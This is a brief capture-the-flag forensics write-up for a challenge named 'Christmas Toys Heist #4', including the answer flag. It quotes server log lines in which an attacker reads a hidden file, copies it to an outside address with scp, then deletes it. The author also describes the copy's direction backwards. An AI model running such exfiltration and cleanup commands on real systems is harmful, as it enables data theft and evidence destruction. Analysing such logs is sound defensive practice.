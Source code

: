  ```
Christmas Toys Heist #4
100

Which sensitive file was compromised and in which directory is it located?

Flag format: CMCTF{filename_directorypath}

Flag example: CMCTF{3x4mp13f1l3_/mind/your/business/}

Author: t4f3

```
on server.log file, we have those line:
```
Dec 20 00:02:10 santatoys-server bash[1252]: root@santatoys-server:/root/santa/.secret/toys# ls -la
Dec 20 00:02:15 santatoys-server bash[1252]: root@santatoys-server:/root/santa/.secret/toys# cat santa_toy_flag
Dec 20 00:02:20 santatoys-server bash[1252]: root@santatoys-server:/root/santa/.secret/toys# scp santa_toy_flag 10.0.0.1:/tmp/
Dec 20 00:02:25 santatoys-server scp[1253]: santa_toy_flag                                   100%   20B  10.0KB/s   00:00
Dec 20 00:02:30 santatoys-server bash[1252]: root@santatoys-server:/root/santa/.secret/toys# rm santa_toy_flag
Dec 20 00:02:35 santatoys-server bash[1252]: root@santatoys-server:/root/santa/.secret/toys# exit
```
the attacker get santa_toy_flag file from remote server to here local machine with scp(secure copy protocole).
after that , he remove the file from server

# flag: CMCTF{santa_toy_flag_/root/santa/.secret/toys/}

